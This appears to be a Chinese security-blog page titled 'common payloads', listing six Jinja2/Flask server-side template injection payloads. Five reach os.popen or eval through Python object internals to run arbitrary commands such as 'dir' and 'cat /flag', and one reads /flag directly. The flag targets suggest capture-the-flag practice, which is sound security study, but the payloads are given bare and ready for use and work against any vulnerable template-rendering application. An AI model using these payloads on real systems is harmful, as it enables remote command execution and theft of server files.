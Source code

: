 [![在这里插入图片描述](assets/1698900310-30b2ad079fc9e6948fe633b424199807.png)](https://storage.tttang.com/media/attachment/2022/08/14/30c9d9c4-f7b1-418c-a09c-8a308b9272c8.png)

# [常用 payload](#toc_payload)

```bash
1、任意命令执行
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('dir').read()%}{%endif%}{%endfor%}
2、任意命令执行
{{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('cat /flag').read()}}
//这个 138 对应的类是 os._wrap_close，只需要找到这个类的索引就可以利用这个 payload
3、任意命令执行
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('dir').read()")}}
4、任意命令执行
{{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
//x 的含义是可以为任意字母，不仅仅限于 x
5、任意命令执行
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
6、文件读取
{{x.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
//x 的含义是可以为任意字母，不仅仅限于 x
```
